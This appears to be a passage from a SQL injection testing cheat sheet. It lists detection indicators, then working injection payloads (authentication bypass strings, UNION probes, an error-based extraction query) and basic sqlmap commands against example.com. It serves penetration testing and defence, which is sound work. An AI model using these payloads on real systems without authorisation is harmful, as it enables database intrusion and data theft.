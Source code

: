 ### Detection Indicators
- Unusual SQL keywords in logs
- Unexpected database errors
- Abnormal response times
- Multiple similar requests with variations
- File system access attempts
- Large data extractions

---

## Quick Reference Commands

### Essential Testing Payloads
```sql
# Basic tests
'
"
`
')
")
`)

# Quick auth bypass
admin'--
admin'#
admin'/*
' or 1=1--
" or 1=1--
' or 'a'='a
" or "a"="a

# Quick UNION tests  
' union select null--
' union select null,null--
' union select null,null,null--

# Quick error triggers
' and (select*from(select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)--
```

### Tool Integration

#### SQLMap Comprehensive Cheat Sheet

##### Basic Usage & Help
```bash
# Help menus
sqlmap -h                                              # View basic help menu
sqlmap -hh                                             # View advanced help menu

# Basic automated scanning
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch   # Run without user input
```
